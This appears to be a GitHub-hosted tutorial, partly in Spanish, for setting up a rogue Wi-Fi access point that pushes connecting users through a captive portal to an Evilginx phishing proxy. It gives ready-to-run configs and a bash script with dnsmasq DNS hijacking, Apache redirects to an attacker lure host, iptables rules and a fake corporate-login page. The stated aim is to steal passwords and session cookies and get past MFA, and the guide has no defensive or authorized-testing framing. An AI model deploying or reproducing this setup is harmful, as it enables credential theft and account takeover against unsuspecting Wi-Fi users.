




Basically, the idea is create a fake wifi network that appears a legitimate wifi, and redirect to the users to phishing website with Evilginx. Evilginx is not just a fake normal webpage, if not that it acts as a man in the middle, intercepting all the traffic between the victim and the real websites (like a Gmail or facebook), stealing users, passwords, and the session cookies, what allow bypass the MFA verification. 

What we need:

1. Computer with Linux OS
2. Wifi Adapter

## Fake AP

### Install software and dependencies

We need to install the tools

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install hostapd dnsmasq apache2 php iptables-persistent -y
sudo systemctl stop hostapd dnsmasq apache2
sudo systemctl disable hostapd dnsmasq
```

### Configure dnsmasq.conf

```bash
# Interface to bind to
interface=wlan0

# DHCP range and lease time
dhcp-range=192.168.45.10,192.168.45.100,255.255.255.0,12h

# Gateway and DNS server (our machine)
dhcp-option=3,192.168.45.1
dhcp-option=6,192.168.45.1

# Redirect all DNS queries to our server
#address=/#/192.168.45.1

# Specific captive portal detection domains
address=/connectivitycheck.gstatic.com/192.168.45.1
address=/clients3.google.com/192.168.45.1
address=/captive.apple.com/192.168.45.1
address=/www.msftconnecttest.com/192.168.45.1
address=/detectportal.firefox.com/192.168.45.1
```

### Configure Apache

Add this lines to the end of the configuration 

```bash
        SSLEngine Off
        RewriteEngine On
        RewriteCond %{REQUEST_URI} ^/hotspot-detect.html [NC,OR]
        RewriteCond %{REQUEST_URI} ^/generate_204 [NC,OR]
        RewriteCond %{REQUEST_URI} ^/ncsi.txt [NC,OR]
        RewriteCond %{REQUEST_URI} ^/connecttest.txt [NC]
        RewriteRule ^(.*)$ https://evilginx.alux.cc/login [R=302,L]
```

And modify the index.html file

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Bienvenido a la Red WiFi Visitante</title>
    <style>
        /* Estilos generales */
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
        }
        
        body {
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            display: flex;
            justify-content: center;
            align-items: center;
            padding: 20px;
        }
        
        .container {
            background-color: white;
            border-radius: 15px;
            box-shadow: 0 10px 30px rgba(0, 0, 0, 0.2);
            width: 100%;
            max-width: 500px;
            padding: 30px;
            text-align: center;
        }
        
        h1 {
            color: #333;
            margin-bottom: 20px;
            font-size: 1.8rem;
        }
        
        .numero-random {
            background-color: #f0f0f0;
            border-radius: 10px;
            padding: 15px;
            margin: 20px 0;
            font-size: 2.5rem;
            font-weight: bold;
            color: #764ba2;
        }
        
        .info-text {
            color: #555;
            line-height: 1.6;
            margin-bottom: 25px;
            text-align: left;
        }
        
        .auth-button {
            background: linear-gradient(to right, #667eea, #764ba2);
            color: white;
            border: none;
            border-radius: 50px;
            padding: 15px 30px;
            font-size: 1.1rem;
            font-weight: bold;
            cursor: pointer;
            transition: all 0.3s ease;
            width: 100%;
            max-width: 300px;
            margin-top: 10px;
        }
        
        .auth-button:hover {
            transform: translateY(-3px);
            box-shadow: 0 5px 15px rgba(102, 126, 234, 0.4);
        }
        
        .auth-button:active {
            transform: translateY(0);
        }
        
        .footer {
            margin-top: 20px;
            font-size: 0.8rem;
            color: #888;
        }
        
        /* Responsive para móviles */
        @media (max-width: 480px) {
            .container {
                padding: 20px;
            }
            
            h1 {
                font-size: 1.5rem;
            }
            
            .numero-random {
                font-size: 2rem;
            }
            
            .auth-button {
                padding: 12px 25px;
                font-size: 1rem;
            }
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>Bienvenido a la red wifi visitante<span id="wifi-id"></span></h1>
        
        <div class="numero-random" id="random-number">--</div>
        
        <div class="info-text">
            <p>Por políticas de la empresa y para garantizar la seguridad de nuestros sistemas, es necesario realizar una autenticación mediante su correo corporativo para acceder a la red WiFi.</p>
            <p>Este procedimiento nos ayuda a mantener un entorno seguro y proteger tanto la información de la empresa como sus datos personales.</p>
        </div>
        
        <button class="auth-button" id="auth-btn">Autenticar con correo corporativo</button>
        
        <div class="footer">
            <p>Si tiene problemas para conectarse, contacte al departamento de TI.</p>
        </div>
    </div>

    <script>
        // Generar número aleatorio entre 0 y 100
        function generarNumeroAleatorio() {
            return Math.floor(Math.random() * 101);
        }
        
        // Mostrar el número aleatorio al cargar la página
        document.addEventListener('DOMContentLoaded', function() {
            const numeroElemento = document.getElementById('random-number');
            const numeroAleatorio = generarNumeroAleatorio();
            numeroElemento.textContent = numeroAleatorio;
            
            // Agregar funcionalidad al botón
            const botonAutenticacion = document.getElementById('auth-btn');
            botonAutenticacion.addEventListener('click', function() {
                // Redirigir a la URL de autenticación
                window.location.href = {lure_url_js};
            });
        });
    </script>
</body>
</html>
```

### Script to setup fake AP

After that we need to set up the configuration to bring up a fake Wi‑Fi network that accepts outbound connections to our fake portal.

What steps does the victim follow?

1. Connect to our Wi‑Fi network.
2. The smartphone shows a captive portal.
3. The user clicks Authenticate and is redirected to a fake Microsoft portal.
4. The user enters their credentials, which allows us to capture the session and passwords.

```sh
#!/bin/bash

# Colors for output
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
NC='\033[0m' # No Color

echo -e "${GREEN}[+] Starting EvilAP Setup${NC}"

# Check if running as root
if [[ $EUID -ne 0 ]]; then
   echo -e "${RED}[-] This script must be run as root${NC}"
   exit 1
fi

# Configuration
INTERFACE="wlan0"  # Change this to your wireless interface
AP_IP="192.168.45.1"
INTERNET_INTERFACE="eth0"  # Change this to your internet-connected interface
# IP del servidor real de alux.cc (reemplaza con la IP correcta si es diferente)
ALUX_CC_IP="<IP EVILGINX>"

echo -e "${YELLOW}[*] Configuring interface ${INTERFACE}${NC}"

# Stop conflicting services
systemctl stop NetworkManager
systemctl stop wpa_supplicant

# Configure wireless interface
ifconfig $INTERFACE down
ifconfig $INTERFACE up
ifconfig $INTERFACE $AP_IP netmask 255.255.255.0

# Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Clear existing iptables rules
iptables -F
iptables -t nat -F
iptables -t mangle -F

echo -e "${YELLOW}[*] Setting up iptables rules${NC}"

# NAT rules for internet access (optional)
iptables -t nat -A POSTROUTING -o $INTERNET_INTERFACE -j MASQUERADE
iptables -A FORWARD -i $INTERFACE -o $INTERNET_INTERFACE -j ACCEPT
iptables -A FORWARD -i $INTERNET_INTERFACE -o $INTERFACE -m state --state RELATED,ESTABLISHED -j ACCEPT

# === CAPTIVE PORTAL RULES - MODIFICADAS ===
# 1. Redirigir solo HTTP (puerto 80) al portal cautivo. Esto evita el error SSL.
iptables -t nat -A PREROUTING -i $INTERFACE -p tcp --dport 80 -j DNAT --to-destination $AP_IP:80

# 2. PERMITIR el tráfico HTTPS (puerto 443) hacia la IP real de evilginx.alux.cc para que la redirección funcione.
iptables -t nat -I PREROUTING -i $INTERFACE -p tcp -d $ALUX_CC_IP --dport 443 -j ACCEPT
# También permitir HTTP por si acaso
iptables -t nat -I PREROUTING -i $INTERFACE -p tcp -d $ALUX_CC_IP --dport 80 -j ACCEPT

# 3. (Opcional) Bloquear otros intentos de HTTPS para una redirección más limpia
# iptables -A FORWARD -i $INTERFACE -p tcp --dport 443 -j DROP

# Allow established connections
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# Allow traffic on loopback
iptables -A INPUT -i lo -j ACCEPT
iptables -A OUTPUT -o lo -j ACCEPT

# Allow traffic on AP interface
iptables -A INPUT -i $INTERFACE -j ACCEPT
iptables -A OUTPUT -o $INTERFACE -j ACCEPT

echo -e "${YELLOW}[*] Starting services${NC}"

# Start Apache
systemctl start apache2

# Start dnsmasq (asegúrate de que tu /etc/dnsmasq.conf está configurado)
dnsmasq -C /etc/dnsmasq.conf -d &
DNSMASQ_PID=$!

# Start hostapd
hostapd /etc/hostapd/hostapd.conf -B

echo -e "${GREEN}[+] EvilAP is now running!${NC}"
echo -e "${GREEN}[+] SSID: Free_WiFi_Guest${NC}"
echo -e "${GREEN}[+] Portal IP: http://${AP_IP}${NC}"
echo -e "${GREEN}[+] Check logs: tail -f /var/log/captive_portal.log${NC}"
echo -e "${YELLOW}[*] Press Ctrl+C to stop${NC}"

# Keep script running
trap 'echo -e "\n${YELLOW}[*] Stopping EvilAP...${NC}"; kill $DNSMASQ_PID; 
systemctl stop hostapd; systemctl stop apache2; iptables -F; iptables -t nat -F; 
echo -e "${GREEN}[+] EvilAP stopped${NC}"; exit 0' INT

# Wait for interrupt
while true; do
    sleep 60
    echo -e "${GREEN}[+] EvilAP running... ($(date))${NC}"
done
```

### Executing our Fake AP

1. We setup our Fake AP and the user connect to our Wi‑Fi network.



2. The smartphone shows a captive portal.



3. The user clicks Authenticate and is redirected to a fake Microsoft portal.



4. The user enters their credentials, which allows us to capture the session and passwords.



And thats all...

References

- https://www.a6n.co.uk/2025/05/evilap-rogue-access-point-with-fake.html